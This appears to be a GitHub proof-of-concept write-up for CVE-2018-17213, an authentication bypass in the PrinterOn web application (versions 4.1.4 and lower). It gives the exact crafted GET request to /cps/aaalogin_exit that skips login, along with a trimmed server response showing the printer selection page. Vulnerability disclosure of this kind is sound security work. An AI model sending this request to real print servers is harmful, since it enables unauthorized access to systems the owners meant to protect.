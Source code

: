 # CVE-2018-17213-Authentication Bypass-PrinterOn

The PrinterOn web application, versions 4.1.4 and lower, is vulnerable to Authentification Bypass attacks that allows attackers to gain access via a crafted GET request. Even if the print server is secured to allow only valid users to authenticate, and has the “Allow Guest” functionality turned off, the vulnerability still occurs.

##### REQUEST:

```
GET /cps/aaalogin_exit?jobReferenceID=null&approveUse=TRUE HTTP/1.1
Host: YY.YY.YY.YY
```

##### RESPONSE:

```
HTTP/1.1 200 
<--SNIP-->
Server: PrinterOn 
 
<!DOCTYPE html>
<html lang="en">
    <head>
        <title>PrinterOn Printing Service</title>

<--SNIP-->

<h3 class="panel-title">

                                Step 1 - Choose a Printer
                           
<--SNIP-->
````

<img src='Auth_Bypass_Result.png'>

